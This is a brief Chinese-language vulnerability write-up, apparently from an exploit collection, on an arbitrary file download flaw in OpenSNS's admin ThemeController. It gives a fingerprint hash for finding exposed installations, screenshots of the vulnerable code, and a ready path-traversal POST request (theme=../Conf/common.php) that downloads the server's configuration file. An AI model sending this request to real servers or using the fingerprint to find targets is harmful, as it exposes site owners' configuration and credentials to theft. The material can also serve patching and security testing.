 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154815562](./images/202205181548621.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![image-20220518154826306](./images/202205181548388.png)

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![image-20220518154838931](./images/202205181548023.png)

构造请求

```
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![image-20220518154851785](./images/202205181548889.png)